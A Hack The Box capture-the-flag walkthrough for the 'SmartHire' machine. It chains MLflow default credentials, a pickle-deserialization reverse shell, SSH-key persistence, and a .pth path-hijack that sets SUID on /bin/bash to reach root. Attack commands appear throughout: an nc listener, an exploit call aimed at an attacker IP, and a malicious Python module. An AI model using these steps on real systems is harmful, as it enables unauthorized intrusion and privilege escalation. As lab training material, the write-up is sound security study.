# SmartHire

**Platform:** Hack The Box  
**Difficulty:** Medium (estimated)  
**OS:** Linux (Ubuntu)  
**Target IP:** 10.129.8.90  
**Attacker IP:** 10.10.14.250  

---

## Table of Contents

- [Machine Description](#machine-description)
- [Architecture](#architecture)
- [Initial Enumeration](#initial-enumeration)
  - [Nmap Scan](#nmap-scan)
  - [Subdomain Discovery](#subdomain-discovery)
  - [CVE-2026-2635 — MLflow Default Credentials](#cve-2026-2635--mlflow-default-credentials)
- [Further Enumeration](#further-enumeration)
  - [Identifying the MLflow Version](#identifying-the-mlflow-version)
- [Initial Exploitation — Foothold](#initial-exploitation--foothold)
  - [CVE-2024-37054 — MLflow RCE via Pickle Deserialization](#cve-2024-37054--mlflow-rce-via-pickle-deserialization)
  - [Reverse Shell to User svcweb](#reverse-shell-to-user-svcweb)
  - [Strengthening Access via SSH Key](#strengthening-access-via-ssh-key)
  - [User Flag](#user-flag)
- [Privilege Escalation to Root](#privilege-escalation-to-root)
  - [sudo -l](#sudo--l)
  - [Analyzing the mlflowctl.py Script](#analyzing-the-mlflowctlpy-script)
  - [Exploitation — Python Path Hijacking via .pth File](#exploitation--python-path-hijacking-via-pth-file)
  - [Root Flag](#root-flag)
- [Attack Summary](#attack-summary)
- [Tools Used](#tools-used)
- [References](#references)

---

## Machine Description

SmartHire is a Hack The Box Linux machine that simulates a machine learning–powered recruitment web application. The machine contains two main vulnerabilities: hardcoded default credentials on the MLflow dashboard (CVE-2026-2635) and a Remote Code Execution vulnerability through pickle deserialization in MLflow (CVE-2024-37054). After gaining initial access as the `svcweb` user, privilege escalation to root is performed using a Python path hijacking technique that abuses a misconfigured `sudo` rule.

---

## Architecture

| Component | Details |
|---|---|
| Web Server | nginx/1.18.0 |
| OS | Ubuntu Linux |
| Open Ports | 22 (SSH), 80 (HTTP) |
| Main Application | `smarthire.htb` |
| Subdomain | `models.smarthire.htb` (MLflow Dashboard) |

---

## Initial Enumeration

### Nmap Scan

A full Nmap scan was performed with version detection, OS detection, and enumeration scripts.

```bash
nmap --privileged -sV --script http-enum -T4 -oN nmap.txt -sC -A -O -p- 10.129.8.90
```

The scan results showed only two open ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
```



The attack surface is limited to port 80 (HTTP), so enumeration focused on the web application.

---

### Subdomain Discovery

Subdomain enumeration was performed against the main domain `smarthire.htb`. A subdomain named `models.smarthire.htb` was discovered.





When accessed, the `models.smarthire.htb` subdomain prompted for HTTP Basic Authentication credentials, indicating a protected internal service.



Add both domains to `/etc/hosts`:

```bash
echo "10.129.8.90 smarthire.htb models.smarthire.htb" | sudo tee -a /etc/hosts
```

---

### CVE-2026-2635 — MLflow Default Credentials

The `models.smarthire.htb` subdomain runs MLflow. Based on CVE-2026-2635, it was found that the application uses hardcoded default credentials embedded directly in the source code.

**Credentials attempted:**

| Username | Password |
|---|---|
| admin | password |
| admin | password1234 |

The combination `admin:password` successfully granted access to the MLflow dashboard.



---

## Further Enumeration

### Identifying the MLflow Version

After successfully logging into the MLflow dashboard, the version was identified to search for further exploitable vulnerabilities.





The MLflow version in use was successfully identified.



That version is vulnerable to **CVE-2024-37054**, a Remote Code Execution vulnerability through insecure `pickle` deserialization when loading models.

---

## Initial Exploitation — Foothold

### CVE-2024-37054 — MLflow RCE via Pickle Deserialization

MLflow loads models using `pickle`, which allows arbitrary code execution if an attacker can replace the model file (`python_model.pkl`) with a malicious payload. The exploitation flow is as follows:

1. Register a new account at `smarthire.htb` and log in to obtain a session cookie.
2. Upload a dummy training CSV file to trigger the model training pipeline and register a model to MLflow.
3. Retrieve the `run_id` of the newly registered model via the MLflow API.
4. Build a malicious pickle payload containing a reverse shell.
5. Overwrite the model's `python_model.pkl` file via the MLflow Artifacts API.
6. Call the `/predict` endpoint on the main application to trigger model loading and execute the payload.

The complete exploit script (`shell.py`) is available in the `SKRIP/` directory.

**Start the listener first:**

```bash
nc -lvnp 4444
```

**Run the exploit:**

```bash
# Automatic (register a new account and exploit):
python3 SKRIP/shell.py --lhost 10.10.14.250 --lport 4444 --atoz

# Manual (use an existing session):
python3 SKRIP/shell.py --lhost 10.10.14.250 --lport 4444 --atoz
```
*(https://github.com/jimmexploit/CVE-2024-37054-PoC.git)*

---

### Reverse Shell to User svcweb

After the exploit ran successfully, a reverse shell was received as the `svcweb` user.





---

### Strengthening Access via SSH Key

To obtain a more stable and persistent shell, an SSH key pair was generated on the attacker machine, then the public key was uploaded to the `svcweb` user's `~/.ssh/authorized_keys`.

**On the attacker machine:**

```bash
ssh-keygen -t ed25519 -C "SSH to svcweb" -f svcweb_key
```



**In the reverse shell (as svcweb):**

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOcZY+Xp/GQQdab+nwvkwd7+LP00nORDXRDFU3sZ7i9B SSH to svcweb" >> ~/.ssh/authorized_keys
```



**Log in via SSH:**

```bash
ssh -i svcweb_key svcweb@smarthire.htb
```

---

### User Flag

After obtaining a stable SSH session as `svcweb`, the user flag was retrieved.



---

## Privilege Escalation to Root

### sudo -l

The sudo privileges were checked to see whether the `svcweb` user had any additional privileges.

```bash
sudo -l
```



It was found that `svcweb` could run a specific Python script as root without a password:

```
(root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
```

---

### Analyzing the mlflowctl.py Script

The `mlflowctl.py` script was analyzed to understand its module import flow. It was found that the script imports a custom module named `mlflow_actions` from the `plugins` directory.

There are two relevant directories:

- `/opt/tools/mlflow_ctl/core/` — main directory (not writable)
- `/opt/tools/mlflow_ctl/dev/` — development directory (writable)





The script contains a logic error vulnerability: the `dev` directory path can be inserted into Python's sys.path so that modules from that directory take priority during import.

---

### Exploitation — Python Path Hijacking via .pth File

The exploitation technique abuses `.pth` files to manipulate Python's `sys.path` so that the writable `dev` directory is used as the module import source, replacing the legitimate `mlflow_actions` module.

**Step 1 — Create a `.pth` file to inject the path:**

```bash
echo "/opt/tools/mlflow_ctl/dev" > /usr/lib/python3.10/evil.pth
```



**Step 2 — Create a malicious `mlflow_actions.py` module in the `dev` directory:**

```python
import os

def check_status():
    os.system("chmod +s /bin/bash")

def restart():
    os.system("chmod +s /bin/bash")
```



**Step 3 — Run the script with sudo and read the root flag:**

```bash
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
```

When executed, the script automatically imports the `mlflow_actions` module from the `dev` directory, which triggers the execution of `/bin/bash -p` with root privileges.



---

## Attack Summary

```
[Attacker]
    |
    | 1. Nmap Scan -> Port 80 (nginx), Port 22 (SSH)
    |
    | 2. Subdomain Enumeration -> models.smarthire.htb (MLflow)
    |
    | 3. CVE-2026-2635 -> MLflow Default Credentials (admin:password)
    |
    | 4. CVE-2024-37054 -> MLflow RCE via Pickle Deserialization
    |       - Upload malicious python_model.pkl
    |       - Trigger /predict -> Reverse Shell as svcweb
    |
    | 5. SSH Key Persistence -> Stable SSH access as svcweb
    |       [User Flag]
    |
    | 6. sudo -l -> NOPASSWD: python3.10 mlflowctl.py
    |
    | 7. Python Path Hijacking via .pth file
    |       - Writable /dev directory
    |       - Inject malicious mlflow_actions.py
    |       - sudo python3.10 mlflowctl.py status -> /bin/bash -p
    |
    v
[ROOT]
    [Root Flag]
```

---

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port scanning and service enumeration |
| curl / browser | Web and subdomain enumeration |
| cloudpickle | Creating malicious pickle payloads |
| Python 3 | Running the exploit script |
| Netcat (nc) | Catching the reverse shell |
| ssh-keygen | Generating SSH key pairs |
| SSH | Persistent access as svcweb |

---

## References

- [CVE-2024-37054 — MLflow Pickle Deserialization RCE](https://nvd.nist.gov/vuln/detail/CVE-2024-37054)
- [CVE-2026-2635 — MLflow Hardcoded Credentials](https://nvd.nist.gov/vuln/detail/CVE-2026-2635)
- [MLflow Security Advisories](https://mlflow.org/docs/latest/security.html)
- [Python .pth File Path Injection](https://docs.python.org/3/library/site.html)
- [Hack The Box](https://www.hackthebox.com)
          
